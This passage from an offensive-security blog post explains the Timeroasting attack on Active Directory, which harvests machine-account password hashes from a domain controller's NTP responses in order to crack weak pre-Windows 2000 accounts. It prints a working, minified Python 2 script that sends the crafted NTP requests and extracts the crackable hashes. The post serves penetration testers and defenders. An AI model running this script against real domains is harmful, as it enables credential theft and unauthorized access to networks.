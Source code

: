 So how can the attacker make use of the NTP Response blobs encrypted with NT hashes of machine accounts that are meant to be derived from **random** passwords? The first thing that comes to mind is the possible existence of Pre-created / Pre-Windows 2000 Computer Accounts in client's AD. Two great blog posts by [Oddvar Moe](https://x.com/Oddvarmoe) and [Garrett Foster](https://x.com/garrfoster), which prove that not all the machine accounts' passwords (under certain circumstances) are necessarily random, are:

- [Diving into Pre-Created Computer Accounts / TrustedSec](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts)
- [Diving Deeper Into Pre-created Computer Accounts / Optiv](https://www.optiv.com/insights/source-zero/blog/diving-deeper-pre-created-computer-accounts)

As long as the attacker possesses a list of sAMAccountNames of all the machines in Active Directory, she can effectively brute force the SNTP hashes hoping to come across a "pre2k" computer or a reset machine account whose password has not yet been re-rolled to a truly random one. With this in mind Timeroasting attack has proven itself to be a powerful method for gaining initial authenticated access in AD environments and/or obtaining control over an auxiliary machine account to be used in other attack chains (RBCD / AD CS abuses / whatever) when MAQ equals zero.

*This blog post is inspired by [Alex Neff's](https://x.com/al3x_n3ff) [thread](https://threadreaderapp.com/thread/1863255831036215441.html) on X, where he presented [the Timeroast module for NetExec](https://github.com/Pennyw0rth/NetExec/pull/311).*

# Timeroasting

> *"You hack people. I hack time."* (Whiterose)

## Unauthenticated

Let's jump staight to a real life case: my team gained access to a legacy Linux box with network visibility of a client's domain controller, but at that point we still did not have any valid AD credentials to process with the enumeration.

The Linux box had only Python 2 installed as well as operating from a DNS back connect didn't help too much with bringing a self contained Python 3 [`timeroast.py`](https://github.com/SecuraBV/Timeroast/blob/main/timeroast.py) executable. Due to the fact that we're dealing with NTP protocol which uses UDP transport, the attack cannot be performed over a SOCKS proxy. Thus, I modified (to support Python 2) and minified (used awesome [python-minifier](https://github.com/dflook/python-minifier)) the original script a bit:

```python
#!/usr/bin/python2
from binascii import hexlify,unhexlify
from select import select
from socket import socket,AF_INET,SOCK_DGRAM
from struct import pack,unpack
from time import time
PREFIX=unhexlify('db0011e9000000000001000000000000e1b8407debc7e50600000000000000000000000000000000e1b8428bffbfcd0a')
def fmt(rid,hashval,salt):return str(rid)+':'+'$sntp-ms$'+hexlify(hashval)+'$'+hexlify(salt)
def roast(dc_host,rids,rate,giveup_time,old_pwd,src_port):
    D=src_port;E=2**31 if old_pwd else 0;A=socket(AF_INET,SOCK_DGRAM)
    try:A.bind(('0.0.0.0',D))
    except Exception as I:raise Exception('Error: %s'%(str(D),str(I)))
    J=1./rate;F=time();G=set();K=iter(rids)
    while time()<F+giveup_time:
        H=next(K,None)
        if H is not None:L=PREFIX+pack('<I',H^E)+'\x00'*16;A.sendto(L,(dc_host,123))
        M,N,N=select([A],[],[],J)
        if M:
            B=A.recvfrom(120)[0]
            if len(B)==68:
                O=B[:48];C=unpack('<I',B[-20:-16])[0]^E;P=B[-16:]
                if C not in G:G.add(C);yield(C,P,O)
                F=time()
```